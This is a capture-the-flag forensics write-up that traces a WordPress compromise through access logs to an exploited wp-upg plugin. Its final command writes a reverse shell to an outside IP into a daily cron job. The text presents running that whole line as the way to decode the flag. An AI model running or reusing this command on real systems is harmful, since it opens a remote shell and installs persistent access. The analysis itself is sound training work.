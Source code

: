 # Explanation
We are given the following file:
* `access.log`: Wordpress server logs.

In the log file, notice there are several requests related to a WordPress website. By slowly analyzing the logs, `82.179.92.206` has performed the most requests out of the IP addresses, indicating a suspicious activity.
<br><br>
Another way is to utilize a command to find the amount of times an IP addresses was involved by the number of requests (command is from HTB write-up).
```
cat access.log | cut -d " " -f 1 | sort | uniq -c
```

<p align='center'>
  <img src='/images/logs2.png' alt="VirusTotal">
</p>

* `cut -d " " -f 1`: The cut command splits each line of the log file into fields using a space (" ") as the delimiter. It then extracts the first field (the IP address) from each line. This isolates the IP addresses from the log entries.
* `sort`: Sorts the extracted IP addresses in ascending order.
* `uniq -c`: Counts the number of unique occurrences of each unique IP address.

# Solution
By reading the instructions, they mentioned that the attacker may have exploited a vulnerability in a plugin. 
Hence, the search can be easier by filtering the logs using "wp-content/plugins/" which is the directory storing all the plugins. Requests from 82.179.92.206 with response status code of 200 are the key to identifying the vulnerability, as these can reveal whether the attacker's attempts were successful. 

By analyzing the logs, notice how some requests suggest that the attacker has exploited the `wp-upg` plugin since the plugin was responding with 200 OK messages. Additionally, `wp-upg` has certain vulnerabilities such as CVE-2022-4060 and CVE-2023-0039

<p align='center'>
  <img src='/images/logs1.png' alt="VirusTotal">
</p>

After identifying the vulnerable plugin, the logs are analyzed further and another important log was found. These requests indicate the attacker was attempting to execute arbitrary commands on the system.

<p align='center'>
  <img src='/images/logs3.png' alt="VirusTotal">
</p>

One of the requests creates a cron job named `testconnect` that connects to a Command and Control (CnC) server and prints the flag.

<p align='center'>
  <img src='/images/logs4.png' alt="VirusTotal">
</p>

<p align='center'>
  <img src='/images/logs6.png' alt="VirusTotal">
</p>

At this point, I was stuck and required help from the HTB writeup. I found out that to retrieve the flag was to decode the URL using the `testconnect` cron job again. This can be done using the command:

```
echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev
```

<p align='center'>
  <img src='/images/logs5.png' alt="VirusTotal">
</p>
